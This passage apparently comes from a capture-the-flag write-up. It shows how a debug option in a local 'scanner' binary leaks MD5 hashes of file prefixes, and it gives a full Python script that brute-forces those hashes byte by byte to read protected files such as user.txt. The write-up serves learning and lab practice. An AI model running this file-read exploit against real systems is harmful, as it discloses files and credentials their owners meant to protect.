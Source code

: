 
Here I’m calling `scanner` with:

  * `-c user.txt` \- target `user.txt`
  * `-p` \- print debug
  * `-l 5` \- only consider the first 5 characters
  * `-s whatever` \- alert if the result matches “whatever”, which will never succeed, but that’s ok

The debug message prints the hash, which matches the MD5 of the first five
characters of the file.

### Arbitrary File Read

If I can get the hash of the first byte of a file, then I can brute force all
possible bytes and take their hashes and compare to get a match. Then I can do
the same with the first two bytes, first three bytes, etc, until I have the
full file.

This is more of a programming exercise than anything else. In [this
video](https://www.youtube.com/watch?v=IkUmlFklWEs) I’ll walk through creating
a Python script to abuse this binary to get file read:

The final script is:

    
    
    #!/usr/bin/env python3
    
    import hashlib
    import subprocess
    import sys
    
    
    def get_hash(fn, n):
        """Get the target hash for n length characters of 
        filename fn"""
        proc = subprocess.run(f"/opt/scanner/scanner -c {fn} -s whatever -p -l {n}".split(),
                    stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        try:
            return proc.stdout.decode().strip().split()[-1]
        except IndexError:
            return None
    
    
    def get_next_char(output, target):
        """Take the current output and figure out what the
        next character will be given the target hash"""
        for i in range(256):
            if target == hashlib.md5(output + chr(i).encode()).hexdigest():
                return chr(i).encode()
    
    
    output = b""
    fn = sys.argv[1]
    
    while True:
        target = get_hash(fn, len(output) + 1)
        next_char = get_next_char(output, target)
        if next_char is None:
            break
        output += next_char
        print(next_char.decode(), end="")
    